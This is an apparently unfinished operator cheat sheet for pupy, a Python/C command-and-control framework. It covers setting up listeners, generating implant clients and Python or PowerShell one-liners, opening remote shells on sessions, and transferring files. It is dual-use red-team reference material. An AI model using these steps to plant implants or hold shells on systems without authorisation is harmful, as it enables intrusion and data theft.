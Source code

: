 === pupy

NOTE: need link here

pupy is a fun little C2 and implant written in python and C. It has a few oneliner clients that make it fairly versatile.

==== Setting up the listeners

The webserver isn't really a listener, but is used to deliver payloads to oneliners.

[cols="1,1", options="header"]
|===
|Command                               |Description
|`config list webserver`               |Get webserver configuration
|`config set webserver listen ADDRESS` |Change webserver port. Must save and restart if changed.
|`config save`                         |Save config
|===

The default config has an `ssl` listener ready to go on port 443. There's not much to configure here.

[cols="1,1", options="header"]
|===
|Command                         |Description
|`config set listeners ssl 8443` |Change port of ssl listener
|===

There's a udp listener available. It needs to be configured before use.

[cols="1,1", options="header"]
|===
|Command                              |Description
|`config set listeners udp_secure 53` |Change port of udp_secure listener
|`listen -a udp_secure`               |Start udp_secure listener
|===

==== Generating clients

pupy calls the implants clients. Clients are generated with the `gen` command

  gen GENFLAG connect CONNECTFLAG

[cols="1,1", options="header"]
|===
|`gen` Flags                           |Description
|`-f client\|py_onliner\|ps1_oneliner` |Generate a standalone client or python or powershell oneliner.
|`-O windows\|linux`                   |Set OS
|`-A x86\|x64`                         |Set arch
|===

[cols="1,1", options="header"]
|===
|Connect Flags        | Description
|`-t ssl\|udp_secure` |Type of connection, ssl or udp_secure
|`--host ADDRESS`     |IP and port of listener
|===

==== Interacting

[cols="1,3", options="header"]
|===
|Command         |Description
|`sessions`      |List current sessions
|`sessions -i N` |Interact with a specific one, if multiple.
|`shell`         |Start an interactive shell on the current session.
|`sessions -K`   |Request all sessions to exit
|===

==== File transfer

[cols="1,3", options="header"]
|===
|Command                           |Description
|`download remote_path local_path` |Download a file
|`upload local_path remote_path`   |Upload a file
|===

==== Modules of note

NOTE: TODO

==== Common snippets

  gen -f py_oneliner -O linux -A x64 connect -t ssl --host localhost:443

Genrate a python oneliner

<<<
